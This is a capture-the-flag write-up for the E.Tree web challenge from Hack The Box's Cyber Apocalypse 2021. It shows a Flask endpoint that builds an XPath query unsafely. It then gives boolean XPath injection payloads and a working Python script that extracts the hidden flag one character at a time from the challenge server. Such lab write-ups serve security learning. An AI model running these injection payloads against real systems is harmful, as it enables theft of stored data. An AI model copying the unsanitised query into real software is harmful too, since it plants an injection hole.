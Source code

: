 ```yaml
---
slug: e-tree-cyberapocalypse-2021-ctf
title: E.Tree - Cyberapocalypse 2021 CTF
description: This is a writeup for the E.Tree challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the E.Tree challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?

<!-- truncate -->

### Recon

We are provided with an XML file, which indicate where the flag will be hidden

```xml
<?xml version="1.0" encoding="utf-8"?>

<military>
    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        
[REDACTED]
        
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
        </staff>
        
    </district>

    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            
        </staff>
    </district>
</military>
```

We also have access to a site, which has a form connected to a POST endpoint  `/api/search`. Giving it a string value would return either that it has found an entry or not.

It gets interesting though, if we pass to it something which starts with an apostrphe `'`. If we pass that through Burpsuite for example, we will receive a response, that we've broken the application, with a very nice detailed error log.

![error log](/content/images/2021/04/xpath-error.png)

This log reveals to us that the application is running Flask, but also more importantly it gives us the query (in fact the whole function) that it's running to respond to our POST request.

```python
#### File "/app/app.py", line _42_, in `search`

@app.route("/api/search", methods=\["POST"\])
def search():
 name = request.json.get("search", "")
 query = "/military/district/staff\[name='{}'\]".format(name)

 if tree.xpath(query):
 	return {"success": 1, "message": "This millitary staff member exists."}

 return {"failure": 1, "message": "This millitary staff member doesn't exist."}
 ```

We can now clearly see that we're faced with the challenge of XPATH injection, and we also know where it occurs.

### Analysis

To test this out, I built the following data for the request, which would return true if the `selfDestructCode` is to be found within the structure of our XML target.

```
{"search": f"x' or count(/selfDestructCode)=1 or 'x'='y"}
```

And since this gave us the a true response, we can now start building a request to test for a flag. For that, we are going to use another boolean-returning function, namely `starts-with`.

### Solution

Since this will be a blind XML injection, we are going to have to be guessing each following symbol in our flag one by one, from a list of printable characters. Thankfully, we know how our flag starts, so this shouldn't be too difficult logistically. But, we have to not forget, that according to the XML file we were supplied with, the flag is split into two parts.

```xml
<selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
```

```xml
<selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
```

So let's write up the logic flow of our solution:

1. We generate a list of printable characters to test for.
2. We start a loop, in which we test whether the flag starts with `CHTB{ + some_char`.
3. If it does, we add `some_char` to our known flag, and continue onto the next character
4. If we run through the whole list of printable characters, without finding a match, we assume we've found the end of the string.
5. We move onto the second part of the flag, but this time we have no knowledge of how it starts
6. Repeat the loop process, and terminate with the same condition as in `4.`

```python
#!/usr/bin/env python

import requests
import string

url = 'http://138.68.179.198:30435/api/search'

listOfPrintable = list(string.printable)

def getFlagStartingWith(flag):

  while True:
    foundOneNew = False
    for char in listOfPrintable:
      # have to assume the second part doesn't also start with a capital C
      if len(flag) == 0 and char == 'C':
        continue
      flagAttempt = flag + char
      data = {"search": f"x' or //staff[starts-with(selfDestructCode, '{flagAttempt}')] or 'x'='y"}
    
      r = requests.post(url, json=data)

      check = '"success"' in r.text
      if check == True:
        flag += char
        foundOneNew = True
        print(flag)
    if foundOneNew == False:
      break
  return flag

firstPartOfFlag = getFlagStartingWith('CHTB{')
secondPartOfFlag = getFlagStartingWith('')
flag = firstPartOfFlag + secondPartOfFlag
print(flag)
```

After a bit, this will spit our flag out

```
CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}
```